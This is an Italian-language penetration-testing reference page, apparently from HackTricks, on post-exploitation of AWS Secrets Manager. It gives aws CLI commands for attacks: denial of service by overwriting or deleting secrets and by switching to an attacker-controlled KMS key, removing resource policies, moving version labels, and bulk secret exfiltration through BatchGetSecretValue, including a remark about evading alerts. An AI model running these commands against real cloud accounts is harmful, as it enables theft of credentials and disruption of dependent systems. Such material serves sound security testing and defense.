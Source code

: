 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Per maggiori informazioni consulta:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Leggere i segreti

I **segreti stessi sono informazioni sensibili**, [consulta la pagina privesc](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) per imparare come leggerli.

### DoS: Modificare il valore del segreto

Modificando il valore del segreto potresti **causare un DoS a tutti i sistemi che dipendono da quel valore.**

> [!WARNING]
> Nota che i valori precedenti sono anche memorizzati, quindi è facile tornare al valore precedente.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Se l'attacker ha il permesso secretsmanager:UpdateSecret, può configurare il secret per usare una KMS key di proprietà dell'attacker. Questa key è inizialmente configurata in modo che chiunque possa accedervi e usarla, quindi è possibile aggiornare il secret con la nuova key. Se la key non fosse stata accessibile, il secret non avrebbe potuto essere aggiornato.

Dopo aver cambiato la key del secret, l'attacker modifica la configurazione della propria key in modo che solo lui possa accedervi. In questo modo, nelle versioni successive del secret verrà criptato con la nuova key e, non essendoci accesso a essa, la possibilità di recuperare il secret andrebbe persa.

È importante notare che questa inaccessibilità si verificherà solo nelle versioni successive, dopo che il contenuto del secret sarà cambiato, poiché la versione attuale è ancora criptata con la KMS key originale.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Il numero minimo di giorni per eliminare un secret è 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

È possibile ripristinare un segreto, il che consente il recupero di segreti che sono stati programmati per la cancellazione, dato che il periodo minimo di cancellazione per i segreti è di 7 giorni e il massimo è di 30 giorni. Insieme al permesso secretsmanager:GetSecretValue, questo rende possibile recuperarne i contenuti.

Per recuperare un segreto che è in fase di cancellazione, puoi usare il seguente comando:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Questa azione permette di eliminare la policy della risorsa che controlla chi può accedere a un segreto. Questo potrebbe portare a un DoS se la policy della risorsa era configurata per consentire l'accesso a un insieme specifico di utenti.

Per eliminare la policy della risorsa:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Gli stati di un secret vengono usati per gestire le versioni di un secret. AWSCURRENT indica la versione attiva che le applicazioni utilizzano, AWSPREVIOUS conserva la versione precedente così da poter effettuare il rollback se necessario, e AWSPENDING viene usato nel processo di rotazione per preparare e validare una nuova versione prima di renderla quella corrente.

Le applicazioni leggono sempre la versione con AWSCURRENT. Se qualcuno sposta quell'etichetta sulla versione sbagliata, le app useranno credenziali non valide e potrebbero fallire.

AWSPREVIOUS non viene usato automaticamente. Tuttavia, se AWSCURRENT viene rimosso o riassegnato in modo errato, potrebbe sembrare che tutto stia ancora girando con la versione precedente.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Esfiltrazione massiva di secret tramite BatchGetSecretValue (fino a 20 per chiamata)

Abusa dell'API Secrets Manager BatchGetSecretValue per recuperare fino a 20 secret in una singola richiesta. Questo può ridurre drasticamente il numero di chiamate API rispetto all'iterazione di GetSecretValue per ogni secret. Se si usano filtri (tags/name), è anche richiesto il permesso ListSecrets. CloudTrail registra comunque un evento GetSecretValue per ogni secret recuperato nel batch.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Nota che la permission `secretsmanager:BatchGetSecretValue` non è sufficiente per recuperare i secret, hai anche bisogno di `secretsmanager:GetSecretValue` per ogni secret che vuoi recuperare.

Esfiltrare tramite lista esplicita
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate per filtri (tag key/value o name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Gestione dei fallimenti parziali
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Impatto
- Esecuzione rapida di “smash-and-grab” su molti segreti con meno chiamate API, potenzialmente bypassando gli avvisi tarati sui picchi di GetSecretValue.
- I log di CloudTrail includono comunque un evento GetSecretValue per ogni segreto recuperato dal batch.
{{#include ../../../../banners/hacktricks-training.md}}
